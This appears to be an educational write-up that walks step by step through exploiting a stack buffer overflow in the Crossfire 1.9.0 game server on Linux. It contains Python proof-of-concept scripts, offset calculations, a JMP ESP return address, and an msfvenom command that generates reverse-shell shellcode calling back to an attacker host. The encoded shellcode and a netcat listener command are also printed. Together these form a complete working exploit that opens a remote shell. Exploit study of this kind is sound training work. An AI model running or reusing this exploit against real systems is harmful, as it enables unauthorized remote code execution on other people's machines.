

<div align='center'>

# **Linux Buffer Overflows**

</div>

## **Table of Contents**

- [**1. About DEP, ASLR, and Canaries**](#1-about-dep-aslr-and-canaries)
- [**2. Replicating the Crash**](#2-replicating-the-crash)
- [**3. Controlling EIP**](#3-controlling-eip)
- [**4. Locating Space for Our Shellcode**](#4-locating-space-for-our-shellcode)
- [**5. Checking for Bad Characters**](#5-checking-for-bad-characters)
- [**6. Finding a Return Address**](#6-finding-a-return-address)
- [**7. Getting a Shell**](#7-getting-a-shell)

Vulnerable Program: [Crossfile 1.9.0](https://www.exploit-db.com/exploits/50216)

## **1. About DEP, ASLR, and Canaries**

DEP (Data Execution Prevention) is a security feature that prevents code from being executed from a non-executable memory region. This is done by marking the stack as non-executable. This means that if we try to execute code from the stack, the program will crash.

ASLR (Address Space Layout Randomization) is a security feature that randomizes the memory addresses of the stack, heap, and libraries. This makes it harder to predict the memory addresses of the stack, heap, and libraries.

Canaries or canary words are known values that are placed between a buffer and control data on the stack to monitor buffer overflows. When the buffer overflows, the first data to be corrupted will usually be the canary, and a failed verification of the canary data will therefore alert of an overflow

## **2. Replicating the Crash**

Running crossfire:


Running [edb](https://github.com/eteran/edb-debugger)


Attaching to the crossfire process


We will use the following [proof-of-concept](./Scripts/Chapter12/poc.py) code that we created based on information from the public exploit

```python
import socket

host = "192.168.190.151"
crash = "\x41" * 4379
buffer = "\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print("[*]Sending evil buffer...")
s.connect((host, 13327))
print(s.recv(1024))
s.send(buffer)
s.close()
print("[*]Payload Sent !")
```

The buffer variable requires specific hex values at the beginning and at the end of it, as well as the "setup sound" string, in order for the application to crash.

Running the script, we can see that the application crashes


We find that the EIP register has been overwritten with the value 0x41414141. Therefore, we may get buffer overflow.

## **3. Controlling EIP**

Use the Metasploit `msf-pattern_create` script to create a unique buffer string


Update the script to use the new buffer string

Script: [offset.py](./Scripts/Chapter12/offset.py)

Running the script, we find that the EIP register has been overwritten with the value 0x46367046.


Passing this value to the Metasploit `msf-pattern_offset` script shows the following buffer offset for those particular bytes: 4368


To confirm this offset, we will update the crash variable in our proof-of-concept to cleanly overwrite EIP with four "B" characters.

```python
crash = "\x41" * 4368 + "B" * 4 + "C" * 7
```

The script: [offset2.py](./Scripts/Chapter12/offset2.py)


## **4. Locating Space for Our Shellcode**

Next, we must find if there are any registers that point to our buffer at the time of the crash. This step is essential, allowing us to subsequently attempt to identify possible JMP or CALL instructions that can redirect the execution flow to our buffer.

Look closer to the debugger, we find that the ESP register points to the end of buffer, leaving only seven bytes of space for shellcode

The EAX register seems to point to the beginning of our buffer, including the "setup sound" string


However, if we jump to the EAX register, we will execute the hex opcodes equivalent of the ASCII string "setup sound" before our shellcode


The opcode instructions s(`\x73`) and e(`\x65`), the two first letters of the word "setup", translate to a conditional jump instruction, which seems to jump to a nearby location in our controlled buffer. The next two letters of the word setup, t(`\x74`) and u(`\x75`), translate to a slightly different conditional jump. Therefore, jumping to the EAX register may not work.

Solution: increase the value of EAX by 12(\x0C) bytes as there are 12 characters in the string "setup sound". This can be done using the ADD assembly instruction and then proceed to jump to the memory pointed to by EAX using a JMP instruction

Get the hex opcodes for the instructions: ADD EAX, 12 and JMP EAX


We get the following hex opcodes: 83C00C and FFE0

Update the script to include the hex opcodes. The NOP instruction (`\x90`) is used for maintain the correct length

```python
padding = "\x41" * 4368
eip = "\x42\x42\x42\x42"
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"
```

The script: [stage1.py](./Scripts/Chapter12/stage1.py)

Running the script, the EIP register is overwritten
with four Bs (`\x42`) and that our first stage shellcode is located at the memory address pointed by the ESP register


## **5. Checking for Bad Characters**

This is similar to the [Windows buffer overflow](Chapter11_Windows_Buffer_Overflows.md)

We sent the whole range of characters from 00 to FF within our buffer and then monitored whether any of those bytes got mangled, swapped, dropped, or changed in memory once they were processed by the application

We get the following bad characters: 00, 20


 

## **6. Finding a Return Address**

We need to find a valid assembly instruction to redirect code execution to the memory location pointed to by the ESP register

Using edb plugin `OpcodeSearcher` to search for JMP ESP instructions


We find that the address 0x08134596 contains the JMP ESP instruction


Update the script to include the address

```python
padding = "\x41" * 4368
eip = "\x96\x45\x13\x08"
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"
```

The script: [stage2.py](./Scripts/Chapter12/stage2.py)

Set a breakpoint at the JMP ESP instruction


Run the script, the debugger stops at the JMP ESP instruction


The next instruction is the ADD EAX, 12 and JMP EAX


After the JMP EAX instruction, we get the buffer of 'A's


## **7. Getting a Shell**

Using the Metasploit `msfvenom` tool to generate a reverse shell shellcode

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.190.133 LPORT=443 -b "\x00\x20" -f py -v shellcode
```


Update the script to include the shellcode

```python
shellcode =  b""
shellcode += b"\xdd\xc3\xbd\xb2\xae\x21\x09\xd9\x74\x24\xf4"
shellcode += b"\x58\x33\xc9\xb1\x12\x83\xc0\x04\x31\x68\x13"
shellcode += b"\x03\xda\xbd\xc3\xfc\x2b\x19\xf4\x1c\x18\xde"
shellcode += b"\xa8\x88\x9c\x69\xaf\xfd\xc6\xa4\xb0\x6d\x5f"
shellcode += b"\x87\x8e\x5c\xdf\xae\x89\xa7\xb7\xf0\xc2\xe6"
shellcode += b"\xc2\x99\x10\x17\xcd\xe2\x9c\xf6\x7d\x72\xcf"
shellcode += b"\xa9\x2e\xc8\xec\xc0\x31\xe3\x73\x80\xd9\x92"
shellcode += b"\x5c\x56\x71\x03\x8c\xb7\xe3\xba\x5b\x24\xb1"
shellcode += b"\x6f\xd5\x4a\x85\x9b\x28\x0c"

padding = "\x41" * (4368 - len(shellcode))
eip = "\x96\x45\x13\x08" # 0x08134596
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

buffer = "\x11(setup sound " + shellcode + padding + eip + first_stage + "\x90\x00#"
```

The script: [final.py](./Scripts/Chapter12/final.py)

Set up a netcat listener on port 443

```bash
nc -nvlp 443
```


Run the script with crossfile running without the debugger, we get a shell

